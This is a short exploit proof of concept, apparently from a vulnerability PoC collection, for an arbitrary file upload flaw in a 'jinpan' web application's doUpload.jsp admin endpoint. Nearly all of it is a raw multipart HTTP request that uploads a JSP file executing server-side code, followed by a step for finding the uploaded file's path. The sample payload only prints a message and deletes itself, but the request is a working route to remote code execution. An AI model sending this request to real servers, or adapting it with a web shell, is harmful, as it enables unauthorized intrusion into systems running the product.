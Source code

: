 # jinpan_doUpload_fileupload
2024/1/29 @2

from: https://mp.weixin.qq.com/s/4ZFlMN8qwKHnz08B67WqvQ


```
POST /pages/admin/tools/uploadFile/doUpload.jsp HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary5iALAXlSiqxJXrhK
 
------WebKitFormBoundary5iALAXlSiqxJXrhK
Content-Disposition: form-data; name="file";filename="ceshi.jsp"
 
<% out.println("Hello World!");new java.io.File(application.getRealPath(request.getServletPath())).delete(); %>
------WebKitFormBoundary5iALAXlSiqxJXrhK--
```

check response to get filepath
/upload/2024-xx-xx/xxx.jsp
